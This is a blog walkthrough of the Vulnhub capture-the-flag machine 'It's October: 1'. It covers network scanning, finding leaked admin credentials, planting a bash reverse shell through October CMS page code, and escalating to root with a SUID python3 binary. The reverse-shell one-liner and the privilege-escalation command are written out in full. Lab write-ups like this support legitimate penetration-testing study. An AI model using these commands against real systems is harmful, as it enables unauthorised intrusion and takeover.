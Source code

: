 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **It's October: 1**

The virtual machine is released on April 8, 2020 at Vulnhub.  The goal is to get the root flag of the target.  However, it encourages you to use the functionalities rather than vulnerabilities of the target.  It is designed to test your penetration testing skills and concepts.

Available on : [Vulnhub](https://www.vulnhub.com/entry/its-october-1,460/)  
Difficulty : Easy/Medium Level  
Format : OVA (Virtualbox)

Kali Linux 2020.1b is used for the testing.

The VM shows the IP address of the box when you boot it up.  However, you can confirm the IP address on your own.

```bash
sudo netdiscover -r 10.0.2.0/24
```

![](https://raw.githubusercontent.com/samiux/images/master/october/001.png)  

The target's IP address is ```10.0.2.31```.

```bash
sudo nmap -Pn -p- -sS -sV -A 10.0.2.31
```

![](https://raw.githubusercontent.com/samiux/images/master/october/002.png)

The screenshot of ```http://10.0.2.31``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/003.png)

The screenshot of ```http://10.0.2.31:8080``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/004.png)

Inspect the source code of port 8080 and find ```mynote.txt``` on the page.  Let's access the ```mynote.txt```.  It shows the username and password.  However, we do not know the admin page yet.  It is suspected to be on port 80 instead of 8080.

![](https://raw.githubusercontent.com/samiux/images/master/october/005.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/006.png)

We need to find out the admin page of the port 80 by gobuster.  We need to set the threads to 5 or errors may be shown.

```bash
sudo gobuster dir -u http://10.0.2.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t5
```

When access ```backend``` directory, the admin panel page is shown.

![](https://raw.githubusercontent.com/samiux/images/master/october/007.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/008.png)

Log in with username ```admin``` and password ```adminadmin2```.

![](https://raw.githubusercontent.com/samiux/images/master/october/009.png)

The version is ```build 465``` and it is the current version as at the time of this writing.  The is no known vulnerability found so far.

After reading the documentation of the [October CMS](https://octobercms.com/docs/cms/pages#life-cycle-response), it is suspected that it is desgined to run ```JavaScript``` by default.  Let's confirm it!

```html
<html>
<body>
	<script>alert("xss");</script>
</body>
</html>
```

![](https://raw.githubusercontent.com/samiux/images/master/october/012.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/010.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/011.png)

It is confirmed that it can run ```JavasScript``` by default.  Let's use ```onStart()``` function to execute the bash shell.

```javascript
function onstart() {
	exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.24/4444 0>&1'");
}
```

![](https://raw.githubusercontent.com/samiux/images/master/october/013.png)

The netcat listener at port 4444 on Kali Linux.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/october/014.png)

After saved the page and ```review``` it.  The shell is ported accordingly.

![](https://raw.githubusercontent.com/samiux/images/master/october/015.png)

The current user is ```www-data```.  We need to find a way for privilege escalation.

```bash
find / -perm -u=s -type f 2>/dev/null
```

The output shows that ```python3.7``` is in sticky bit.  We try to privilege escalate it using Python 3.

```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

As a result, we get ```euid=0(root)``` after running the above command.

We then go to the /root and display the ```proof.txt```.  Bingo!  Root is dancing!

![](https://raw.githubusercontent.com/samiux/images/master/october/016.png)

### Final thought

This is a typical Capture The Flag (CTF) game, however, it does not use the vulnerability to exploit it.  It is very a interesting box indeed!

Samiux  
OSCE  OSCP  OSWP  
April 19, 2020, Hong Kong, China  


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
